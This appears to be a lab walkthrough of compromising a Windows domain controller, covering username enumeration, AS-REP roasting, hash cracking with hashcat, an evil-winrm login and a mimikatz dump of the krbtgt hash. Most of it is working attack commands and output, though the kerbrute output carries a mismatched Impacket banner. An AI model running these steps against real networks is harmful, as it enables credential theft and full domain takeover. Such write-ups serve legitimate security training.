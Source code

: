 # 0. Sources

|||
|---|---|
|[YouTube](https://www.youtube.com/watch?v=YO3y1KRcbi0)|[Download](https://drive.google.com/file/d/1UfnW8X2qzMGTAGK1N4D9_iWHUVYuEmLD/view)|



# 2. Finding a way in

The nmap scan found a FTP service with anonymous login allowed, there isn't any files in FTP at all, but this provides a list of usernames

☝️ **Usernames are important!** Although the FTP service had no data, having a list of usernames means you can use it to enumerate something else

## 2.1. Try AS-REP Roasting

The other ports such as `53`, `88`, `389`, `636`, `3268`, `3269`, etc shows that this is a Domain Controller and the domain name is `windomain.local`

Let's use the list of usernames to do AS-REP Roasting

### 2.1.1. Use kerbrute to find users with preauthentication disabled

```console
┌──(root㉿kali)-[~]
└─# kerbrute -users users.txt -domain windomain.local -dc-ip 10.0.88.39
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Stupendous (Expired password) => Dinnie.Nikki:
[*] Valid user => Dulci.Alanah
[*] Valid user => Lem.Emmalyn
[*] Valid user => Onida.Florence
[*] Valid user => Rakel.Bekki
[*] Valid user => vagrant [NOT PREAUTH]
```

### 2.1.2. Use GetNPUsers.py to get password hash

```console
┌──(root㉿kali)-[~]
└─# impacket-GetNPUsers windomain.local/vagrant -no-pass -dc-ip 10.0.88.39
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for vagrant
$krb5asrep$23$vagrant@WINDOMAIN.LOCAL:871beef48a411f845ebb1d8b04dd9c13$adbbc87ab91d710e562fff2d00b7936613250dad5f0bb468e77b3ef4264d6b3930556b866f4468a8243c3866e2757ced577870144b2afd4746a7fc90fcaf347807e5c50d34285528d3fa71abcdf46994dfa0c26831d0486d8b6cdd1bb8c33208e5eaa246ed75eba33d0f78a533b2760f5a230075a1f7edf73c6742737026a19e393ed411839693fb32dacf7323727214c84c5f905a9c8dea3eccafe0435454ace2a995bf017080883ae04d188dfe3dde47ef1c4c59281879f8b184b61a05278e2fd7bcba94239738c72ad27dfdf0a78efad21663d48b5cbbf7ea51848d0df834adc481c77791200f25947906389d5bfd3907
```

### 2.1.3. Use hashcat to crack the hash

```console
┌──(root㉿kali)-[~]
└─# hashcat -m 18200 as-rep.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
⋮
$krb5asrep$23$vagrant@WINDOMAIN.LOCAL:•••hash-truncated•••:vagrant

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
⋮
Started: Thu Dec  8 14:36:19 2022
Stopped: Thu Dec  8 14:36:48 2022
```

### 2.1.4. Connect to target

```console
┌──(root㉿kali)-[~]
└─# evil-winrm -i 10.0.88.39 -u vagrant -p vagrant

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\vagrant\Documents> whoami
windomain\vagrant
*Evil-WinRM* PS C:\Users\vagrant\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
*Evil-WinRM* PS C:\Users\vagrant\Documents> net user vagrant /domain
User name                    vagrant
Full Name                    Vagrant
Comment                      Vagrant User
User's comment
Country/region code          001 (United States)
Account active               Yes
Account expires              Never

Password last set            8/3/2020 5:44:01 AM
Password expires             Never
Password changeable          8/4/2020 5:44:01 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   12/8/2022 7:30:25 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *Domain Users
The command completed successfully.
```

# 3. Further Active Directory attack

The `vagrant` user is not a member of Domain Admins, but is a member of `BUILTIN\Administrators` - this should be sufficient rights to elevate to `SYSTEM` and dump all the password hashes in the domain controller

```cmd
*Evil-WinRM* PS C:\Users\vagrant\Documents> .\mimikatz 'privilege::debug' 'token::elevate' 'lsadump::lsa /patch' exit
⋮
mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

672     {0;000003e7} 1 D 44054          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;002c4e90} 0 D 3024299     WINDOMAIN\vagrant       S-1-5-21-1544547503-3534482728-1687236716-1000  (10g,26p)       Primary
 * Thread Token  : {0;000003e7} 1 D 3558907     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz(commandline) # lsadump::lsa /patch
Domain : WINDOMAIN / S-1-5-21-1544547503-3534482728-1687236716
⋮
RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 0421d518b013747f02710907bcf91afa
⋮
mimikatz(commandline) # exit
Bye!
```

Indeed we got the `krbtgt` user hash, we can use it to perform the [attacking the Active Directory](../../attacking-active-directory.md#5-golden-ticket) to do anything we want in the domain now
